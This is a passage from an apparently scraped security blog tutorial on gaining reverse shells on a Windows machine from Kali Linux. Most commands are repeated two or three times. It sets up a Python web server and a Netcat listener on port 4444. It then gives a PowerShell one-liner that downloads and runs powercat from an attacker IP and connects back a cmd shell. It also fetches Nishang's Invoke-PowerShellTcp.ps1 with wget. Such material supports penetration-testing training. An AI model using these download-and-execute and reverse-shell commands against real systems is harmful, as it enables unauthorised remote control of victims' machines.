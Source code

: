 <pre class="EnlighterJSRAW enlighter-origin" data-enlighter-language="generic">
python -m SimpleHTTPServer 80
</pre>

![](https://blogger.googleusercontent.com/img/a/AVvXsEjHq78EVsSCI_qVLOzm2bj07tpSUqvSnK0_-o0FHEqfxlDjRW-oYqA1sOa7WdHmeQTA68DtSJ1PiEpl_wcutpfd6C_YYJFLTRif6QlQW68ls6pcCG72f4SdsNk6UwG_KtXAe24ivrM-L8r7Tobwbd8jBjH2jMY_-Ippeak6csFU5MLrQB1mrVvKkq8qQg=s16000)

Users must start a Netcat listener on port 4444 for obtaining a reverse connection by using the command

nc -vlp 4444.

nc -vlp 4444.

<pre class="EnlighterJSRAW enlighter-origin" data-enlighter-language="generic">
nc -vlp 4444.
</pre>

So now we need to boot up our Windows machine and run the PowerShell command inside the command prompt (CMD). Please note that the IP address should be your local IP address (Kali IP address).

powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.1.3/powercat.ps1');powercat -c 192.168.1.3 -p 4444 -e cmd"

powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.1.3/powercat.ps1');powercat -c 192.168.1.3 -p 4444 -e cmd"

<pre class="EnlighterJSRAW enlighter-origin" data-enlighter-language="generic">
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.1.3/powercat.ps1');powercat -c 192.168.1.3 -p 4444 -e cmd"
</pre>

![](https://blogger.googleusercontent.com/img/a/AVvXsEg4o7lllnEGOuEt7O5FhzmK_VZfHJs7RTTIEH180FFYuQBT3D0OpNuZmTHdAWGpl_kd_vM8I0ms-9jruHLREl4rM-Kw_Rp61MI-7aas0WdLg8MQB_yEwWW0GOf6JSCJ3VK4G-9J61v_WE537nRQEAr5_6p7JnVBwPKSBCHG31qHx1LJBFtJIxygLjvt8Q=s16000)

You will get the reverse shell in the Netcat listener once the command is executed, can use the command **whoami** to see whether we get the correct shell. This will tell you the user account type logged in.

![](https://blogger.googleusercontent.com/img/a/AVvXsEiaaxiSHW0OPUFyaLZv5Eq90cgEoa20nRD6nDS2Kj0XkMb60G-AZ4nw42aE8rUO3b9Kb-THFlmAxVj2M7OcFMlSpjP-bHKDQa1HQSO3anFStbArAiFosB0GPEqtu5i9wPoiqBXx0Qn6gZdz6caKiVRLHyM9SP7F6sWasFbrUjKCRphq6kZqroK5hYBSCQ=s16000)

### Invoke-PowerShellTcp (Nishang)

This PowerShell script can be used to Reverse or Bind Interactive PowerShell. To link up the script to a port, we need to use a Netcat listener.

This website, which is mentioned below, should be visited.

Since it is a Github website, you should indeed download the link.

wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1

wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1

<pre class="EnlighterJSRAW enlighter-origin" data-enlighter-language="generic">
wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
</pre>

Through wget, the script is downloaded, now we have to transfer this file through python sever.
